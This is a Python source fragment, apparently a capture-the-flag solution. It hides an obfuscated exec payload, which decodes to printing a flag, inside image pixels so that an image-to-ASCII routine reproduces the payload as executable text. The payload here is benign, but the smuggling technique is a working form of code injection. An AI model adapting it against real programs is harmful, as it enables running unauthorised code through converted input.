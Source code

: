 ```python

    return -1

# Initializing the payload
payload = 'exec(chr(110 + 1 + 1) + "r" + chr(100 + 1 + 1 + 1 + 1 + 1) + chr(110) + chr(110 + 1 + 1 + 1 + 1 + 1 + 1) + "(" + chr(100 + 1 + 1) + chr(110 - 1 - 1) + chr(100 - 1 - 1 - 1) + chr(1 + 100 + 1 + 1 + 1 % 1) + ")")'

string_len = 7 * 40

# Padding the payload so that changing it later doesn't cause too many changes
payload = payload + (string_len - len(payload)) * ' '

# Initializing a string representing the chars
chars_str = ' -"~rc()+=01exh%'

# Creating the np array needed for the asciinator part of the code
chars = np.asarray(list(' -"~rc()+=01exh%'))

while True:
    # Cutting to string_len so that the length of the payload doesn't change
    payload = payload[:string_len]

    # Replacing characters that are badly rounded in the output
    payload = payload.replace('"', '~')
    payload = payload.replace('-', '"')

    # Filling an array with the index of each letter in the list of the
    # available characters, in range(0, 255, 16).
    payload_array = [chr(chars_str.index(letter) * 16) for letter in payload]

    # Creating three components for each byte, and copying this 3-byte sequence
    # 6 times so as to withstand the resizing of the image.
    rgb_string = ''.join([(chr(255 - ord(i)) + '\x00\x00') * 6 for i in payload_array])
    rgb_string = bytes(ord(c) for c in rgb_string)

    # Number of RGB components in the image
    dim_img = int(len(rgb_string) / 3)

    # Height of the image
    height = 10
    img = Image.frombytes('RGB', (dim_img, height), rgb_string * height)

    # asciinator ##############################################################
    SC, GCF, WCF = 1./10, 1, 7./4

    # Processing made by the program
    S = ( round(img.size[0]*SC*WCF), round(img.size[1]*SC) )
    img = np.sum( np.asarray( img.resize(S) ), axis=2)

    img -= img.min()
    img = (1.0 - img.astype(float)/img.max())**GCF*(chars.size-1)

    arr = chars[img.astype(int)]
    arr = '\n'.join(''.join(row) for row in arr)

    # asciinator end ##########################################################

    # Replacing the letters that change because of the rounding
    payload = payload.replace('"', '-')
    payload = payload.replace('~', '"')

    split_payload = payload.split(' ')
```